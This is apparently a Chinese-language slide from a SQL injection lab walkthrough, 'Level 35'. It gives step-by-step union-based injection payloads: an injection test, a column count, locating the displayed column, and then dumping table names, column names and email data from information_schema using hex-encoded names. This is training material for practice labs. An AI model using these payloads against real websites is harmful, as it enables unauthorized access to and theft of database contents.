

# 第三十五关
判断是否存在注入：?id=1  and 1=1 -- qwe

判断字段数：?id=1 order by 3-- qwe

判断显错位 ：?id=100 union select 1,2,3 -- qwe

判断库名：?id=100 union select 1,2,3 -- qwe

判断表名：?id=100 union select 1,table_name,3 from
information_schema.tables where table_schema=0x7365637572697479 -- qwe

判断列名：?id=100 union select 1,column_name,3 from information_schema.columns where table_schema=0x7365637572697479 and table_name=0x656d61696c73 -- qwe

判断数据：?id=100 union select 1,id,3 from emails-- qwe